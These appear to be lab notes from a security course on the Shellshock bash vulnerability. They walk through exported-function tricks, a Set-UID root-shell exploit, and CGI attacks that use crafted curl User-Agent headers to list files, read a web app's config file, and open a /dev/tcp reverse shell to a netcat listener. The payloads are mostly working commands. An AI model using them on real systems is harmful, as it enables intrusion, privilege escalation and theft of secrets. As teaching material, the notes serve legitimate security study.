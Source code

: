 # Shellshock Attack

Some snippets below:

## Shell Functions

```bash
foo() { echo "Inside function"; }
declare -f foo # show the function def
foo
unset -f foo
declare -f foo # show the function def
```

```bash
foo() { echo "hello world"; }
declare -f foo # show the function def
foo
export -f foo
bash
foo
```

```bash
foo='() { echo "hello world"; }'
echo $foo
declare -f foo # show the function def
export foo
bash_shellshock # run vuln. version of bash

echo $foo
declare -f foo # show the function def
foo
```

## The Shellshock Vuln.

```bash
foo='() { echo "hello world"; }; echo "extra";'
echo $foo
export foo
bash_shellshock # run vuln. version of bash

echo $foo
declare -f foo # show the function def
foo
```

## Shellshock Attack on Set-UID Programs

```bash
sudo ln -sf /bin/bash_shellshock /bin/sh # link sh to the vuln. version of bash
cat vul.c
gcc vul.c -o vul
./vul
sudo chown root vul
sudo chmod 4755 vul
./vul
export foo='() { echo "hello world"; }; echo /bin/sh'
./vul # get the root shell! 
sudo ln -sf /bin/dash /bin/sh # reset sh
```

## Shellshock Attacks on CGI Programs

### Setup

Put this script (`test.cgi`) in `/usr/bin/cgi-bin/`

```bash
#!/bin/bash_shellshock

echo "Content-type: text/plain"
echo 
echo 
echo "Hello World"
```

Use `curl` to interact with the CGI script

```bash
curl http://10.0.2.69/cgi-bin/test.cgi
```

### User Data in CGI Scripts

```bash
#!/bin/bash_shellshock

echo "Content-type: text/plain"
echo 
echo "*** Environment Variables ***"
strings /proc/$$/environ
```

```bash
curl -v http://10.0.2.69/cgi-bin/test.cgi
```

Use `curl -A ...` to change the user-agent field.

```bash
curl -A "test" -v http://10.0.2.69/cgi-bin/test.cgi
```

### Launching the attack

```bash
curl -A "() { echo hello; }; 
         echo Content-type: text/plain; 
         echo; /bin/ls -l"
         http://10.0.2.69/cgi-bin/test.cgi
```

```bash
curl -A "() { echo hello; }; 
         echo Content-type: text/plain; 
         echo; 
         /bin/cat /var/www/CSRF/Elgg/elgg-config/settings.php"
         http://10.0.2.69/cgi-bin/test.cgi
```

### Reverse Shell

```bash
nc -lv 9090
ifconfig
```

```bash
/bin/bash -i > /dev/tcp/10.0.2.70/9090 0<&1 2>&1
```

```bash
curl -A "() { echo hello; }; 
         echo Content-type: text/plain; 
         echo; 
         echo; 
         /bin/bash -i > /dev/tcp/10.0.2.70/9090 0<&1 2>&1"
         http://10.0.2.69/cgi-bin/test.cgi
```

```bash
nc -lv 9090
id
```

##### From class:

Follow instructions in Appendices in the SEED setup manual (lab00) to see how to clone your existing SEED VM and properly configure the NAT Network.

Step 1: 
```bash
# start netcat server on "attacker" machine
seed@VM(10.0.2.15):~$ nc -lv 9090
Listening on [0.0.0.0] (family 0, port 9090)
```

Step 2: 
```bash
# experiment with ideal payload on "victim" machine (i.e., a remote server)
seed@VM(10.0.2.7):~$ /bin/bash -i > /dev/tcp/10.0.2.15/9090 0<&1 2>&1
```

At this point, you have a reverse shell setup! 
You can now specify commands from the "attacker" VM, 
which are sent over the network connection and run on the victim's machine; 
the results are also sent back over the network connection to the "attacker" VM. 
In this way, you have shell access to the victim VM! 

The question then is: how do you get the victim to execute your payload?!

**NOTE:** The IP addresses are specific to my configuration. 
You should use `ifconfig` to verify the IP addresses on your VMs. 
